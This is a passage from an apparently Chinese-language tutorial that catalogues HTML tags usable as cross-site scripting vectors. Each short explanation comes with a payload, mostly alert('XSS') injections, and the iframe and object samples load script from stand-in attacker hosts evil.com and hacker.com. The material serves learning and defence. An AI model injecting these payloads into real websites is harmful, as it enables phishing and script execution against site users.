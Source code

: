 `<iframe>` 标签的功能是将另一个 HTML 页面嵌入到当前页面中。由于内容安全协议（CSP），尽管 IFrame 中可能有 JavaScript 代码，但这些代码没有权限访问父页面上的 DOM。然而，IFrame 仍然是发起网络钓鱼攻击的有效方式。

```html
<!-- <iframe> 标签 XSS 攻击 -->
<iframe src="http://evil.com/xss.html"></iframe>
```

### `<input>` 标签

在一些浏览器中，如果 `<input>` 标签的 `type` 属性被设置成 `image`，那么它便能嵌入脚本。

```html
<!-- <input> 标签 XSS 攻击 -->
<input type="image" src="javascript:alert('XSS');" />
```

### `<link>` 标签

`<link>` 标签通常被用作链接外部样式表，但也可以包含脚本。

```html
<!-- <link> 标签 XSS 攻击 -->
<link rel="stylesheet" href="javascript:alert('XSS');" />
```

### `<table>` 标签

`<table>` 和 `<td>` 标签的 `background` 属性可以被用作引用脚本而不是引用图片。

```html
<!-- <table> 标签 XSS -->
<table background="javascript:alert('XSS')">
  <!-- <td> 标签 XSS -->
  <td background="javascript:alert('XSS')"></td>
</table>
```

### `<div>` 标签

与 `<table>` 和 `<td>` 标签类似，`<div>` 标签也可以通过 `background` 属性嵌入脚本。

```html
<!-- <div> 标签 XSS 攻击 -->
<div style="background-image: url(javascript:alert('XSS'))">
  <!-- <div> 标签 XSS 攻击 -->
  <div style="width: expression(alert('XSS'));"></div>
</div>
```

### `<object>` 标签

`<object>` 标签能被用于引入外部网站的脚本。

```html
<!-- <object> 标签 XSS 攻击 -->
<object type="text/x-scriptlet" data="http://hacker.com/xss.html"></object>
```
